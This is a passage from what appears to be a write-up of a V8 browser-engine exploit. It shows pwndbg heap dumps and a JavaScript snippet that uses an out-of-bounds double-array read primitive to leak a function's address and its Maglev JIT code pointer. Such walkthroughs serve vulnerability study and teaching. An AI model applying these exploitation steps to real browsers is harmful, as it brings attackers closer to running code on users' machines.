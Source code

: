 ```bash
pwndbg> x/50wx 0x0e72000421d1-1
0xe72000421d0:	0x0018ece5	0x00000219	0x000421e9	0x00000200
0xe72000421e0:	0x0000117d	0x00207cc5	0x00000901	0x0000000a
0xe72000421f0:	0x00000000	0x00000082	0x00000000	0x40508000
0xe7200042200:	0x00000000	0x40544000	0x00000000	0x40548000
0xe7200042210:	0x00000000	0x3ff80000	0x00000901	0x00000006
0xe7200042220:	0x00000000	0x40504000	0x00000000	0x40508000
0xe7200042230:	0x00000000	0x3ff80000	0x0018ece5	0x00000219
0xe7200042240:	(0x0019bfe5	0x00000002)	0x0000117d	0x00207cf1
0xe7200042250:	0x00000901	0x00000006	0x00000000	0x40504000
0xe7200042260:	0x00000000	0x40508000	0x00000000	0x3ff80000
0xe7200042270:	0x00000089	0x00000004	0x00000000	0x00848484
0xe7200042280:	0x0018ed65	0x00000219	0x00042299	0x00000004
0xe7200042290:	0x0000117d	0x00207d1d
```

We can see at address 0xe7200042240 the address of `func` has been placed. This address is the address of `elements` of `OobDblArr2`.

```bash
pwndbg> x/50wx 0x344b0019bfd5-1
0x344b0019bfd4:	0x00184359	0x00000219	0x00000219	0x0019b2e5
0x344b0019bfe4:	0x0019be51	0x0019bde5	(0x001a0921)	0x0000026d
0x344b0019bff4:	0x00000ac1	0x0019ae2d	0x0000b8a0	0x0019bfd5
0x344b0019c004:	0x00000229	0x00000ac1	0x00002bb9	0x0000baa0
0x344b0019c014:	0x0018e42d	0x00207655	0x00184359	0x00000219
0x344b0019c024:	0x00000219	0x0019b319	0x0019be51	0x0019bdf1
```

We can see that at `funcAddr + 0x18` there is code address.

```js
  var maglevAddr = read(codeAddr + 0x8, dblOffset);
  console.log("maglev Addr: " + maglevAddr[0].toString(16) + " " + maglevAddr[1].toString(16));
```

Next, we try to leak the address of JIT compiled code of `code`. We give `codeAddr + 0x8` because the address of this code is present at `<add of code> + 0x10`. When we read `OobDblArr2[0]` it accesses first element at address `<addr of elements OobDblArr2> + 0x8`. So, we access value at `codeAddr + 0x10`.

```bash
pwndbg> x/50wx 0x3371000421d1-1
0x3371000421d0:	0x0018ece5	0x00000219	0x000421e9	0x00000200
0x3371000421e0:	0x0000117d	0x00207cad	0x00000901	0x0000000a
0x3371000421f0:	0x00000000	0x00000082	0x00000000	0x40508000
0x337100042200:	0x00000000	0x40544000	0x00000000	0x40548000
0x337100042210:	0x00000000	0x3ff80000	0x00000901	0x00000006
0x337100042220:	0x00000000	0x40504000	0x00000000	0x40508000
0x337100042230:	0x00000000	0x3ff80000	0x0018ece5	0x00000219
0x337100042240:	(0x001a0921)	0x00000002	0x0000117d	0x00207cd9
0x337100042250:	0x00000901	0x00000006	0x00000000	0x40504000
0x337100042260:	0x00000000	0x40508000	0x00000000	0x3ff80000
0x337100042270:	0x00000089	0x00000004	0x00000000	0x00848484
0x337100042280:	0x0018ed65	0x00000219	0x00042299	0x00000004
0x337100042290:	0x0000117d	0x00207d05
```
